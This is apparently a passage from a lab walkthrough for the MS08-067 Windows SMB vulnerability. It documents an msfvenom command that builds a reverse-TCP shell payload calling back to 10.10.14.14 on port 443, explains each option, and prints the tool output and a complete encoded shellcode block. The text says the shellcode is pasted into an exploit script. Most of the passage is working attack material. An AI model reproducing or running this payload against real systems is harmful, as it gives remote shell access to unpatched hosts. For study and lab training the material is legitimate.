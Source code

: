 # MS08-067


Reference:
https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN

![image](https://user-images.githubusercontent.com/66146701/199320162-acc77a25-a1d5-4b1b-9ac3-27094abbbf42.png)

### Shellcode Generation

To make the shellcode, We will use `msfvenom`. 

```
-p windows/shell_reverse_tcp - This will connect back to me with a shell.
    
LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread - defining the variables for the payload - my ip, the port, and how to exit.

-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" - The bad characters not to use.

-f py - Output in python format.

-v shellcode - Have the code set the variable shellcode, instead of the default, buf. I want this to match what it’s called in the code I’m using.

-a x86 and --platform windows - Describing the environment I’m attacking.
```


<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>root@kali# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1872 bytes
shellcode =  ""
shellcode += "\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e"
shellcode += "\x81\x76\x0e\x92\xab\xaa\xc8\x83\xee\xfc\xe2\xf4"
shellcode += "\x6e\x43\x28\xc8\x92\xab\xca\x41\x77\x9a\x6a\xac"
shellcode += "\x19\xfb\x9a\x43\xc0\xa7\x21\x9a\x86\x20\xd8\xe0"
shellcode += "\x9d\x1c\xe0\xee\xa3\x54\x06\xf4\xf3\xd7\xa8\xe4"
shellcode += "\xb2\x6a\x65\xc5\x93\x6c\x48\x3a\xc0\xfc\x21\x9a"
shellcode += "\x82\x20\xe0\xf4\x19\xe7\xbb\xb0\x71\xe3\xab\x19"
shellcode += "\xc3\x20\xf3\xe8\x93\x78\x21\x81\x8a\x48\x90\x81"
shellcode += "\x19\x9f\x21\xc9\x44\x9a\x55\x64\x53\x64\xa7\xc9"
shellcode += "\x55\x93\x4a\xbd\x64\xa8\xd7\x30\xa9\xd6\x8e\xbd"
shellcode += "\x76\xf3\x21\x90\xb6\xaa\x79\xae\x19\xa7\xe1\x43"
shellcode += "\xca\xb7\xab\x1b\x19\xaf\x21\xc9\x42\x22\xee\xec"
shellcode += "\xb6\xf0\xf1\xa9\xcb\xf1\xfb\x37\x72\xf4\xf5\x92"
shellcode += "\x19\xb9\x41\x45\xcf\xc3\x99\xfa\x92\xab\xc2\xbf"
shellcode += "\xe1\x99\xf5\x9c\xfa\xe7\xdd\xee\x95\x54\x7f\x70"
shellcode += "\x02\xaa\xaa\xc8\xbb\x6f\xfe\x98\xfa\x82\x2a\xa3"
shellcode += "\x92\x54\x7f\x98\xc2\xfb\xfa\x88\xc2\xeb\xfa\xa0"
shellcode += "\x78\xa4\x75\x28\x6d\x7e\x3d\xa2\x97\xc3\xa0\xc2"
shellcode += "\x9c\xa5\xc2\xca\x92\xaa\x11\x41\x74\xc1\xba\x9e"
shellcode += "\xc5\xc3\x33\x6d\xe6\xca\x55\x1d\x17\x6b\xde\xc4"
shellcode += "\x6d\xe5\xa2\xbd\x7e\xc3\x5a\x7d\x30\xfd\x55\x1d"
shellcode += "\xfa\xc8\xc7\xac\x92\x22\x49\x9f\xc5\xfc\x9b\x3e"
shellcode += "\xf8\xb9\xf3\x9e\x70\x56\xcc\x0f\xd6\x8f\x96\xc9"
shellcode += "\x93\x26\xee\xec\x82\x6d\xaa\x8c\xc6\xfb\xfc\x9e"
shellcode += "\xc4\xed\xfc\x86\xc4\xfd\xf9\x9e\xfa\xd2\x66\xf7"
shellcode += "\x14\x54\x7f\x41\x72\xe5\xfc\x8e\x6d\x9b\xc2\xc0"
shellcode += "\x15\xb6\xca\x37\x47\x10\x4a\xd5\xb8\xa1\xc2\x6e"
shellcode += "\x07\x16\x37\x37\x47\x97\xac\xb4\x98\x2b\x51\x28"
shellcode += "\xe7\xae\x11\x8f\x81\xd9\xc5\xa2\x92\xf8\x55\x1d"
</code></pre></div></div>

<p>I’ll take this shellcode into the script, and paste it in replacing the default. I like to also paste in a comment above it with the <code class="language-plaintext highlighter-rouge">msfvenom</code> command string I ran to generate it so that when I come back to it someday, I’ll know what it’s doing.</p>
